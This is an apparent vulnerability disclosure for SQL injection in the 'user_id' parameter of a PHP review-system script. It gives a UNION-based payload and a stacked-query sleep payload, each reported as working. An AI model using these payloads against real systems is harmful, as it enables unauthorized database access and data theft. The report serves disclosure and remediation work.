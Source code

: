 # Online Reviewer System v1.0 has SQL injection

BUG_Author:waibi8Bu

Website source code address: https://www.sourcecodester.com/php/12937/online-reviewer-system-using-phppdo.html

Vulnerability File: /reviewer/system/system/admins/manage/users/user-update.php

GET parameter 'user_id' exists SQL injection vulnerability

Payload1:user_id=2' union all select null,null,null,null,concat(0x353637,0x454647),null,null,null,null,null-- -

union query success

![image](https://github.com/rick13795/bug_report/blob/main/sql1.png)

Payload2:user_id=2';select sleep(5)-- -

Stacked queries succeeded, server response time is 5 seconds

![image](https://github.com/rick13795/bug_report/blob/main/sql2.png)
